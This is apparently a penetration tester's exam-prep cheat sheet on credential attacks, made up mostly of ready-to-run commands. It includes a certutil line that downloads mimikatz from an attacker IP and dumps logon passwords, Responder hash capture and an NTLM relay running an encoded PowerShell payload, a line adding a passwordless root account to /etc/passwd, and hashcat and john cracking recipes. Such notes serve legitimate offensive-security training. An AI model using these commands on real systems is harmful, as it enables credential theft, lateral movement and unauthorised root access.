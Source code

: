 # Get
Run mimikatz non-interactively:
```powershell
cd \Users\Public ; certutil.exe -urlcache -split -f "http://192.168.45.182:8001/mimikatz.exe"; .\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```

##### Forced authentication
Does not require high privileges, aquires NTLMv2 Hashes.
You need to connect to your kali with SMB to get the NTLMv2 hashes. For example by abusing a web application on the target or with `dir \\$tip\test` executed on it.
```bash
sudo responder -A -I tun0
```
> Do not forget the `-A`, otherwise responder could use features that are not allowed in the exam!

NTLMv2 contains a timestamp, but uncrackable hashes can still be relayed if the relayed user is local admin on the target or the latter has UAC remote restrictions disabled:
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t $hip -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

Get from the User-Files
```bash
grep --include "9_*" "Hash: " ./* 2>/dev/null | rev | cut -d " " -f1 | rev >> hashes.ntlm
```
# Convert
passwd -> john
```
unshadow passwd shadow > unshadowed.hash
```
SSH Key -> john
```bash
ssh2john $file > id_rsa.hash
```

# Crack
#### John
```
john --wordlist=/usr/share/wordlists/rockyou.txt $file
```

Use "--format=crypt" if the unshadowed has "y" as algorithm

For LM Hashs:
2. Run john with `--format=LM --show` and without attack type (e.g. wordlist). It will identify 2 hashes per lines, bc LM hashes can be cracked partly. Also, if it displays `????`, this part of the LM wasn't cracked yet. But it needs to.
3. Figure out capitalization of password. I've created a script to get that using the NTML Hash (did I ever test it?...). Alternatively, create wordlist file with only the found password canidate in uppercase. Run john with `--rules --format=NT --wordlist=` to get the password correctly capitalized. ![[checkLMagainstNTLM.py]]
#### Hashcat
Kerberos AS-REP
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
Kerberos TGS-REP
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NTLM Hash
```bash
sudo hashcat -m 1000 hashes.ntlm /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NTLMv2 Hash
```bash
sudo hashcat -m 5600 hashes.ntlmv2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NT Hash
```bash
hashcat -a 3 -m 900 --encoding-to utf16le NTHashes.txt
```
#### If set through GPP
```bash
gpp-decrypt "$hash"
```
#### If unsalted
https://crackstation.net/

# Exploit
If `/etc/passwd` is writeable
```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
Or with acutal credential
```bash
openssl passwd -1 -salt dummy dummy
```

# Identify
Hashes
`hashid $hash`
`hash-identifier`

Find credentials in source code
`~/Documents/activeInformationGathering/trufflehog filesystem --no-verification $path`
#### Windows
| | | | | 
|-|-|-|-|
| $Administrator:$|$500:$|$NO PASSWORD*********************:$|$BE134K40129560B46534340292AF4E72:::$|
|USER     |UID|            LM Hash             |     NT Hash (also called NTLM)|


CrackStation -> RockYou.txt (john)



#### Linux
| | | | | |
|-|-|-|-|-|
|root:|\$6|\$IodYKEbO|\$5TglyZFgGW72oeW0Ql/9Wt7KwW2XWeW3TNmBUo94Qsj1tJg.tDs1HIuIlmyr/:|18251:0:99999:7:::|
|user| $*$|  Salt  |                     Hashed Password                         | Account Information|

|$(*)$|Algorithm|Hashcat|
|-|-|-|
|$1$  |MD5 |500|
|$2a$|Blowfish|3200|
|$2y$|Blowfish|
|$5$|SHA-256|7400|
|$6$|SHA-512|1800|

